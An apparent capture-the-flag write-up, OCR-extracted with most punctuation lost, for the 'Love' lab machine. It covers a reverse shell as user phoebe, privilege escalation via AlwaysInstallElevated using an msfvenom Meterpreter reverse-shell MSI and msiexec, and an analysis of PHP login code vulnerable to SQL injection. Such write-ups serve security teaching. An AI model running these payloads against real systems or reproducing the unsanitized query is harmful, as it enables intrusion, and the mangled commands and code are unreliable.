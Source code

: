 Some code was removed to not clutter up this report

Key parts of the exploit can be seen above  Note the modification of the variables toward the top of the page as well as the URL  Now  executing the script results in a reverse shell as the user phoebe 

     reports Love image2 png 

Privilege Escalation
                    

After obtaining a shell as the user phoebe  the next task is to escalate to Administrator or SYSTEM 

     reports Love image4 png 

From the output it can be seen that winPEAS detected a misconfiguration in the AlwaysInstallElevated group policy  By default  this policy is set to 0  and it is extremely dangerous to modify this value  When this policy is set to 1  Microsoft Windows Installer Packages  MSI  are installed with system privileges  Therefore  a malicious MSI file that returns a reverse shell can be used to get a shell as the SYSTEM user 

msfvenom  p windows meterpreter reverse tcp LHOST 10 10 10 14 111 LPORT 9001  f msi   0xd4y msi

After downloading the malicious MSI file onto the box  it is important to start up a multi handler on msfconsole before executing it  Upon downloading the file and setting up the msfconsole listener  the msi file can be executed using the msiexec command  a command responsible for installing  modifying  and performing operations on Windows Installer  3    ftnt3   

msiexec  quiet  qn  i 0xd4y msi

     reports Love image3 png 

A shell is then returned as the system user 

Post Exploitation Analysis
                          

     

SQL Injection
             

The SQL injection led to the leakage of the Admin password hash  This was due to the lack of user input sanitization  The following code snippet was taken from C xampphtdocsomrslogin php  and is running on the root page of http   10 10 10 239 

   highlight php   
if isset   POST  login               
    voter     POST  voter                                                 
    password     POST  password                                           
                               
    sql    SELECT   FROM voters WHERE voters id     voter                 
    query    conn  query  sql  
   endhighlight   

This piece of code was responsible for the SQLi  Note the user query is passed directly into the sql variable  which is used during the connection to the internal SQL server  The user input is passed into the voter variable which is surrounded by single quotes in the SQL query  This was the reason for the SQLi working upon prepending a single quote to the beginning of the input  Note that this same vulnerability is present within C xampphtdocsomrsadminlogin php 
